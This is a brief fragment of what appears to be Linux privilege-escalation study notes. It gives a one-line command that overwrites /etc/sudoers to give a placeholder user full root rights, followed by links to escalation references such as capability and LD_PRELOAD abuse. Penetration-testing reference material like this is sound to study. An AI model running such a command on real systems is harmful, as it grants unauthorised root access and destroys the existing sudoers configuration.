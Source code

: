 ### Root write access

```
/bin/echo "<USERNAME>    ALL=(ALL:ALL) ALL" > /etc/sudoers
```

### Capabilities

https://medium.com/@int0x33/day-44-linux-capabilities-privilege-escalation-via-openssl-with-selinux-enabled-and-enforced-74d2bec02099


--------------------------------------------------------------------------------

### References

https://book.hacktricks.xyz/linux-unix/privilege-escalation

https://www.hackingarticles.in/linux-privilege-escalation-using-ld_preload/

https://bugs.debian.org/cgi-bin/bugreport.cgi?bug=299007

https://unix.stackexchange.com/questions/47208/what-is-the-difference-between-kernel-drivers-and-kernel-modules

https://bitvijays.github.io/LFC-BinaryExploitation.html

https://www.boiteaklou.fr/Abusing-Shared-Libraries.html
